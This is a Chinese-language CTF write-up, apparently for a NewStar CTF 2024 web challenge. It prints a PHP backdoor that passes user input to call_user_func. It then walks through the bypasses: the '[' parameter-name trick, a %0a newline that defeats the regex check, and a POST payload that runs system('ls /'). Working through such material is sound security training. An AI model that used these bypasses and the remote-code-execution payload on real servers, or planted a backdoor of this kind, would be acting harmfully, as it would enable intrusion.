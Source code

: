 发现多了几个文件，正是我们想要的东西

![image-20241005141729653](https://gitee.com/bx33661/image/raw/master/path/image-20241005141729653.png)

```php
<?php

# Functions to handle HTML output

function print_msg($msg) {
    $content = file_get_contents('index.html');
    $content = preg_replace('/\s*<script.*<\/script>/s', '', $content);
    $content = preg_replace('/ event/', '', $content);
    $content = str_replace('点击此处载入存档', $msg, $content);
    echo $content;
}

function show_backdoor() {
    $content = file_get_contents('index.html');
    $content = str_replace('/assets/index.4f73d116116831ef.js', '/assets/backdoor.5b55c904b31db48d.js', $content);
    echo $content;
}

# Backdoor

if ($_POST['papa'] !== 'TfflxoU0ry7c') {
    show_backdoor();
} else if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
    call_user_func($_POST['func'], $_POST['args']);
} else {
    print_msg('PangBai hates you!');
}

```

发现这个是把那个后门文件给替换了，这里我们只用关注最后一段代码

这里需要注意一个细节，当_ 和 .同时出现的时候，应该改`_` 为 `[`

这段代码的逻辑是既要`NewStar_CTF.2024` = Welcome 同时不能匹配到 Welcome，我们需要对传入语句添加一些特殊字符，试了几个后发现`%0a`

```python
#GET
?NewStar[CTF.2024=Welcome%0a
#POST
papa=TfflxoU0ry7c
```

最后就是这个`call_user_func`函数,第一个传函数名，第二个传参数

```
papa=TfflxoU0ry7c&func=system&args=ls /
```
